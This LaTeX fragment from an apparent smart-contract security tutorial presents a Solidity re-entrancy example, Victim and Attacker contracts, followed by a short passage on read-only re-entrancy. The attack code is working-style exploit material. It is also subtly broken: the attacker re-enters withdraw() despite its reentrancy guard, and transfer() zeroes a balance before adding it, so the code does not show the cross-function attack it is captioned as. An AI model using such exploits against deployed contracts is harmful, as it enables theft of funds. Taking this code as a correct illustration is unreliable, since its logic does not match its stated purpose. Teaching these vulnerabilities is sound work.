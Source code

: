 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=Solidity, caption=Cross-Function Re-Entrancy Example]
contract Victim {
    mapping(address => uint) private balances;
    bool locked;

    modifier noReentrant() {
        require(!locked, "ReentrancyGuardError");
        locked = true;
        _;
        locked = false;
    }

    function withdraw() public noReentrant {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success);
        balances[msg.sender] = 0;
    }

    function transfer(address to) public {
        balances[msg.sender] = 0;
        balances[to] += balances[msg.sender];
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
}

contract Attacker {
    Victim victim;
    uint256 private initialDeposit;

    constructor(address _vulnerable) {
        victim = Victim(_vulnerable);
    }

    function attack() public payable {
        initialDeposit = msg.value;
        victim.deposit{value: msg.value}();
        victim.withdraw();
    }

    receive() external payable {
        if (address(victim).balance > initialDeposit) {
            victim.withdraw();
        }
    }
}
\end{lstlisting}

\noindent
Play around with this code example in \href{https://remix.ethereum.org/?#activate=solidity&url=https://github.com/radovluk/unbreakable-vault/contracts/reentrancy02.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.28+commit.7893614a.js}{prepared file in REMIX IDE}.

\subsection{Read-Only Re-Entrancy}

Read-only re-entrancy is a particular case of cross-contract re-entrancy attacks. This vulnerability occurs when a smart contract's behavior depends on the state of another contract. While attackers usually target state-changing functions, view functions can also provide outdated state information during a cross-contract re-entrancy. This scenario can lead to the exploitation of third-party infrastructure.
\end{document}
